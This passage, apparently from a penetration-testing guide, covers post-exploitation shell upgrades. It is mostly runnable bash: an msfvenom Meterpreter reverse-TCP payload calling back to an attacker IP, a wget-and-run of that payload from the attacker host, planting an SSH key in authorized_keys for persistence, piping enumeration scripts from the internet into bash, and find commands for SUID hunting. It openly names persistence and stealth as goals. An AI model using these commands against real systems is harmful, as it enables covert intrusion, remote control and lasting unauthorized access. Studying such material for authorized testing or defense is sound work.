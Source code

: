 ```bash
# - Allows job control and process management
# - Enables command history and tab completion
# - Prevents shell from breaking on certain commands
```

### **Advanced Shell Upgrade Techniques**

**What advanced upgrades provide:** Enhanced functionality, persistence, and stealth through shell enhancement and environment modification.

```bash
# Shell upgrade to Meterpreter
# From existing shell session in Metasploit
sessions -u 1                                # Upgrade session 1 to Meterpreter

# Manual Meterpreter upgrade
# Generate Meterpreter executable
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4445 -f elf -o meterpreter_upgrade

# Transfer and execute from existing shell
wget http://192.168.1.5:8000/meterpreter_upgrade
chmod +x meterpreter_upgrade
./meterpreter_upgrade

# SSH key installation for persistent access
# Generate SSH key pair
ssh-keygen -t rsa -b 4096 -f ~/.ssh/target_key

# Install public key on target (from existing shell)
mkdir -p ~/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC..." >> ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys

# Connect with SSH key
ssh -i ~/.ssh/target_key user@target.com

# Shell enhancement with additional tools
# Install common penetration testing tools
curl -s https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
curl -s https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh | bash

# Create custom shell environment
cat > ~/.bashrc << 'EOF'
# Custom aliases for penetration testing
alias ll='ls -la'
alias la='ls -A'
alias l='ls -CF'
alias ..='cd ..'
alias ...='cd ../..'
alias grep='grep --color=auto'
alias fgrep='fgrep --color=auto'
alias egrep='egrep --color=auto'

# Custom functions
find_suid() { find / -perm -4000 -type f 2>/dev/null; }
find_guid() { find / -perm -2000 -type f 2>/dev/null; }
find_world_writable() { find / -writable -type d 2>/dev/null; }

# Enhanced prompt
PS1='\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '
EOF

```